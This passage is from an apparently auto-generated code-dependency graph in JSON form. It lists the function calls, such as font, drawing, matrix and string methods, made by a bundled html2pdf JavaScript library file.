"static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addJS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subscribe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "newObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subscribe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getFont"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getFontSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getFont"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addPage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cellAddPage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "printHeaderRow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getStringUnitWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getFontSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "text"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "text"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFontSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "arrayMax"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateLineHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setTableHeaderRow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "printHeaderRow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "splitTextToSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getLineHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFontStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFillColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setTableHeaderRow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFontStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_map_rect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_map_rect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_map_rect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFillStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getFontSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFillStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setStrokeStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFont"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFontSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setLineCap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setLineWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setLineJoin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_getRGBA"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFillColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setTextColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_getRGBA"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setDrawColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setDrawColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_map_point"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_rotation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCurrentPage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_decompose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "text"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getFontSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFontSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "text"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFontSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_map_point"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_rotation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCurrentPage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_decompose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "text"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getFontSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFontSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "text"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFontSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getFontSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFontSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFontStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFontStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFontStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFont"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getFontSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFontSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFont"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setLineWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setLineCap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setLineJoin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_map_point"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_gotoPage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_multiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCurrentPageInfo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_map_point"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_map_point"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_map_point"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_map_point"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_map_point"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_map_point"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_is_identity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_map_point"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_map_point"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_map_point"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_wrapY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_map_rect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_map_rect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_map_point"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_map_point"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_map_point"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_multiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_multiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_matrix_multiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCurrentPage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "arc2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "lines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clip_fixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "lines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCurrentPage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCurrentPage"}, 